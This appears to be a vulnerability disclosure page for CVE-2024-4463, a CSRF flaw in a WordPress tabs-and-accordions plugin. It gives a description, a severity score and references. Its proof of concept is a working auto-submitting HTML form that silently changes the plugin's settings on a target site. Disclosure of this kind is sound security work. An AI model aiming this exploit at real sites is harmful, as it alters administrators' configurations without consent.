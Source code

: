 ```yaml
---
layout: page
title: CVE-2024-4463
subtitle: Squelch Tabs and Accordions Shortcodes <= 0.4.7 - Cross-Site Request Forgery
---
```

## Description
The Squelch Tabs and Accordions Shortcodes plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 0.4.7. This is due to missing or incorrect nonce validation when saving plugin settings. This makes it possible for unauthenticated attackers to modify plugin settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 0.4.7

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / twitter.com/aaillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/themes.php?page=squelch-tabs-and-accordions-shortcodes" method="POST">
      <input type="hidden" name="jquery&#95;ui&#95;theme" value="smoothness" />
      <input type="hidden" name="disable&#95;magic&#95;url" value="on" />
      <input type="hidden" name="vanity&#95;url" value="eneri" />
      <input type="hidden" name="submitted" value="1" />
      <input type="hidden" name="submit" value="Save&#32;Changes" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3082482%40squelch-tabs-and-accordions-shortcodes%2Ftrunk&old=3067680%40squelch-tabs-and-accordions-shortcodes%2Ftrunk&sfp_email=&sfph_mail=
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/squelch-tabs-and-accordions-shortcodes/squelch-tabs-and-accordions-shortcodes-047-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4463





